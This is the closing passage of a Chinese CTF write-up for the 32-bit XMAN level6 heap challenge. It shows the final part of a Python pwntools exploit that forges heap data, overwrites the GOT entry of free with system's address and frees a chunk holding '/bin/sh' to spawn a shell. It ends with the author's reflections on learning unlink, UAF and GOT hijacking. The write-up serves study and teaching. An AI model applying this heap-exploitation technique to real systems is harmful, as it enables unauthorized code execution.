 ```Python
payload2 = p32(3) + p32(1) + p32(4) + p32(elf.got['free']) + p32(1) + p32(8) + p32(heap_addr + 0xc28 + 0x80)
payload2 = payload2.ljust(0x80 * 2, 'C')

Edit(0, payload2)
Edit(0, p32(sys_addr))
Edit(1, '/bin/sh\x00')

Delete(1)

sh.interactive()
sh.close()
```

&emsp;&emsp;脚本运行结果截图：

![](/img/XMAN-level6/XMAN16.png)

## PS

&emsp;&emsp;这道题对于堆初学者来说帮助很大，能够加深堆堆溢出利用的了解。本题还有其他的方法，综合下来可以学到UAF，Double Free，GOT表劫持，unsorted bin泄露地址，unlink利用等等知识，值得花很多时间去细细品味。

&emsp;&emsp;反正这道题花了我一周时间==，主要还是网上很多大佬写的Write Up太简单了（也可能是我太菜）而且它们的重心都放在了解释伪造chunk触发unlink上了，对于其他的细节没能做解释。所以当直接去看Write Up以及EXP代码的时候会一头雾水，很多地方不知道为什么要这么写。

&emsp;&emsp;这道题还有64位版本，思路和32位一模一样，只是一些offset根据libc的变化而变化，有兴趣的可以参照32位程序再巩固一下。

&emsp;&emsp;最后说一下这道题给我的收获：纸上得来终觉浅，绝知此事要躬行。